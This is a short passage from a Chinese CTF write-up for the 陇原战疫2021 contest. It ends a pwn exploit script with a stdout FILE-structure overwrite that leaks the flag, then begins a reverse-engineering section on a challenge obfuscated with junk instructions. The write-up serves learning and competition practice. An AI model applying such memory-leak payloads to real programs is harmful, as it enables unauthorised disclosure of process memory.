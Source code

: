 ```python
sd('a' * (0x7ffff7dd2620 - 0x7ffff7dd25dd - 0x10) + p64(0xfbad1800) + p64(0) * 3 + p64(flag_addr))
ru('flag{') 
flag = 'flag{'+ru('}')

print flag
r.close()
```



# RE

## EasyRe

一开始知道是考的花指令，也自己手动去了一部分，但是发现太多了就放弃了，期间有观察到有一个神奇的字符串，看wp都说是flag，后来官方wp才知道是出题人忘去了。。。

最终要的就是这个函数：

![image-20211115162141448](陇原战疫2021部分wp/image-20211115162141448.png)
